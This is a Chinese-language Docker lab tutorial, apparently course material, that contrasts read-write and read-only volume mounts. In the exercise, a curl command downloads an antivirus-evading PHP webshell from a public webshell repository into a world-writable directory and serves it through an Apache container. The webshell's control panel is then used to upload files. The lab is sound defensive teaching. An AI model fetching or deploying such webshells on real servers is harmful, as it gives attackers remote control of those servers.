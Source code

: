 这时，使用PC机可以访问 http://x.x.x.x:3000 (IP请用服务器IP，3000最后2位用自己编号)，看到IP地址来源信息。

访问  http://x.x.x.x:3000/y.y.y.y 可以得到y.y.y.y的地址来源信息。

执行以下命令停止ipdesc
```
docker container stop user${ID}ipdesc
```

### 8. 只读目录映射实验

实验内容：下载一个黑客程序（大马），对比文件目录映射 是否只读 的区别。

#### 8.1 准备

在自己目录下建立 phptest 目录，并改为所有人可以读写，下载一个大马php程序。

```
mkdir ~/phptest
cd ~/phptest
chmod a+rwx .
curl https://raw.githubusercontent.com/tennc/webshell/master/www-7jyewu-cn/%E5%85%8D%E6%9D%80php%E5%A4%A7%E9%A9%AC.php > index.php
```

#### 8.2 读写映射执行

启动container，并copy进去一个文件。

```
cd ~/phptest
docker run -dit --name user${ID}php --rm -v $PWD:/var/www/html -p 30${ID}:80 php:apache
docker cp index.php  user${ID}php:/
```

这时，使用PC机可以访问 http://x.x.x.x:3000 (IP请用服务器IP，3000最后2位用自己编号)，可以看到一个对web服务器的控制界面。

向 /var/www/html /var/tmp 分别上传一个文件，上传文件可以正常进行。

在服务器上执行：
```
ls -al ~/phptest

docker diff user${ID}php 
```

第一个命令可以看到上传到 /var/www/html 的文件。

第二个命令可以看到container启动后，相对image，修改了哪些文件。


#### 8.3 只读映射执行
```
cd ~/phptest
docker container stop user${ID}php
docker run -dit --name user${ID}php --rm -v $PWD:/var/www/html:ro -p 30${ID}:80 php:apache
```

这时，使用PC机可以访问 http://x.x.x.x:3000 (IP请用服务器IP，3000最后2位用自己编号)，因为是只读映射，向 /var/www/html 上传文件会出现错误。
